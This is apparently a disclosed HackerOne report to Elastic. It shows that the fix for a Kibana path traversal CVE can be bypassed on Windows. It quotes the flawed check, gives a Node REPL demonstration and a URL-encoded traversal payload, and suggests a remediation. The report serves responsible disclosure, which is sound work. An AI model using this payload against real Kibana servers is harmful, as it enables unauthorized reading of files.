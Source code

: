 # Fix for CVE-2021-22151 (Kibana path traversal issue) can be bypassed on Windows

## Report Details
- **Report ID**: 1353603
- **URL**: https://hackerone.com/reports/1353603
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-09-28T12:50:52.752Z
- **Disclosed**: 2021-11-15T20:32:12.172Z

## Reporter
- **Username**: dee-see
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: elastic

## Vulnerability Information
## Summary

Hello team, I hope you're doing well! I was combing through your GitHub repository to look at the fixes for recent security releases and found [the fix for CVE-2021-22151](https://github.com/elastic/kibana/pull/107768) to be incomplete. The current fix makes assumptions that are true on Linux but that don't hold on Windows.

## Details

The [fixed code](https://github.com/elastic/kibana/blob/62e7deee3c03cde99ae8f5da37352d0d5bd54d84/x-pack/plugins/maps/server/routes.js#L490-L494) looks like this

```typescript
      const range = path.normalize(request.params.range);
      return range.startsWith('..')
        ? response.notFound()
        : new Promise((resolve) => {
            const fontPath = path.join(__dirname, 'fonts', 'open_sans', `${range}.pbf`);
            fs.readFile(fontPath, (error, data) => {
                // snipped
            });
          });
```

The assumption is that any path traversal attempts, once normalized, will start with `..`. This seems to hold on Linux, however on Windows this can happen (using the NodeJS REPL for demonstration here):

```javascript
> let range = path.normalize('c:../../../../../../../path_traversal')
undefined
> console.log(range)
c:..\..\..\..\..\..\..\path_traversal
> range.startsWith('..')
false
> const fontPath = path.join(__dirname, 'fonts', 'open_sans', `${range}.pbf`);
undefined
> console.log(fontPath)
c:\path_traversal.pbf
```

Path traversal happened even if the `range` didn't start with `..`.

## Steps to reproduce

This requires Kibana to be installed on Windows.

1. Put a `.pbf` file somewhere on disk for demonstration. I did it with `echo hax > c:\path_traversal.pbf`
1. Visit <http://localhost:5601/api/maps/fonts/open_sans/c%3A..%2F..%2F..%2F..%2F..%2F..%2F..%2Fpath_traversal> and the file from the previous step will be downloaded
    1. You might need to add some `..%2f` depending on how deep Kibana is installed.

## Remediation

Thom Heymann already had a great suggestion [in their code review](https://github.com/elastic/kibana/pull/107768/files#r683586289)

> The best way to solve this is to resolve the path from range and ensure it is inside your fonts directory.

I think this would fix the issue once and for all!

## Impact

Path traversal disclosing `.pbf` files

## Attachments
No attachments
